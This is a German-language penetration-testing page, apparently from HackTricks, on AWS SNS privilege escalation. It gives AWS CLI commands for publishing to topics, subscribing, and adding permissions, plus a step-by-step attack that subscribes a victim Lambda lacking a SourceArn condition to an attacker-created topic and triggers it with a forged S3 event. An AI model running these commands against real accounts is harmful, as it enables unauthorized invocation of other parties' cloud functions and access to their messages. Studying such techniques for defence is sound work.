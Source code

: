 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Ein Angreifer könnte bösartige oder unerwünschte Nachrichten an das SNS topic senden, was potenziell zu Datenkorruption, dem Auslösen unbeabsichtigter Aktionen oder zur Erschöpfung von Ressourcen führen kann.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Mögliche Auswirkungen**: Ausnutzung von Schwachstellen, Datenkorruption, unbeabsichtigte Aktionen oder Ressourcenerschöpfung.

### `sns:Subscribe`

Ein Angreifer könnte ein SNS topic abonnieren und dadurch möglicherweise unautorisierten Zugriff auf Nachrichten erlangen oder die normale Funktion von Anwendungen, die auf das Topic angewiesen sind, stören.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potentielle Auswirkungen**: Unbefugter Zugriff auf Nachrichten (sensible Informationen), Dienstunterbrechung für Anwendungen, die von dem betroffenen Topic abhängen.

### `sns:AddPermission`

Ein Angreifer könnte unbefugten Benutzern oder Diensten Zugriff auf ein SNS-Topic gewähren und dadurch möglicherweise weitere Berechtigungen erlangen.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potentielle Auswirkungen**: Unbefugter Zugriff auf das Topic, Offenlegung von Nachrichten oder Manipulation des Topic durch unbefugte Benutzer oder Dienste, Störung des normalen Betriebs für Anwendungen, die auf das Topic angewiesen sind.


### Lambda aufrufen, indem wildcard SNS-Berechtigung missbraucht wird (kein `SourceArn`)

Wenn eine resource-basierte Policy einer Lambda-Funktion `sns.amazonaws.com` erlaubt, sie aufzurufen, ohne das Quell-Topic (`SourceArn`) einzuschränken, kann sich jedes SNS topic (auch in einem anderen Account) abonnieren und die Funktion auslösen. Ein Angreifer mit grundlegenden SNS-Berechtigungen kann die Lambda dazu zwingen, unter ihrer IAM-Rolle mit vom Angreifer kontrolliertem Input auszuführen.

> [!TIP]
> TODO: Kann das wirklich kontoübergreifend durchgeführt werden?

Voraussetzungen
- Die Policy der Opfer-Lambda enthält eine Aussage wie unten, ohne `SourceArn`-Bedingung:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Missbrauchsschritte (im selben oder kontoübergreifend)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Mögliche Auswirkungen**: Die betroffene Lambda-Funktion läuft mit ihrer IAM-Rolle und verarbeitet vom Angreifer kontrollierte Eingaben. Dies kann missbraucht werden, um die Funktion dazu zu bringen, sensible Aktionen durchzuführen (z. B. in S3 zu schreiben, auf secrets zuzugreifen, Ressourcen zu ändern), abhängig von ihren Berechtigungen.

{{#include ../../../../banners/hacktricks-training.md}}
